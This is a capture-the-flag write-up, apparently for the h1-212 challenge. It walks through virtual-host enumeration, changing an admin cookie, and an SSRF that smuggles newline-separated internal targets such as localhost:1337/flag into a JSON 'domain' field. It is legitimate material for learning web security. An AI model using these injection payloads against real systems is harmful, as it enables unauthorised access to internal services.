 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there (using my tool https://github.com/chamli/CyberCrowl)

then i used virtual-host-discovery tool to get all virtual host there 

(i know that jobertabma make this task so that's why i checked his github :D and yeah it was there ) 

![image](https://user-images.githubusercontent.com/7364615/33027283-f949a3ae-ce12-11e7-98f5-222dcb97319e.png)

![image](https://user-images.githubusercontent.com/7364615/33027406-4acf6b14-ce13-11e7-9310-770652435ca4.png)

```
Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)
```
so as description said : admin.acme.org this is the one :D 
(An engineer of acme.org launched a new server for a new admin panel)

After that i st
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 after make admin=yes and change GET to POST

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that "application/json" is the one :D 

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

So by send random data we get second error 'domain' required

By start send random domain "www.test.com" make it work and get another error :D  

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```
so when domain is valid we get data base64 (Easy way to get that valid domain site:212.*.com) 

![image](https://user-images.githubusercontent.com/7364615/33027790-629d5b6a-ce14-11e7-824e-3a79ac055f67.png)

Then send request 

![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

Its' look like SSRF here guys :D 

So just need to bypass .com and 212 containe , if we send domain with 212.*.com we can break all check 

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !! (\n) 

In this case it will make three request "localhost","212.test.com","212.hahahah.com"
```
{"domain":"localhost\n212.test.com\n212.hahahah.com"}  
```

Then when i start look for flag , i didnt get the point , Because i get always Null data for the first request of localhost

```
{"domain":"localhost/flag\n212.test.com"}  
```

And then make brute force using Burp Suite ,But before that get end , i check 1337 as its for "Leet" guys :D 

And Yeah found port 1337 open :D 
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
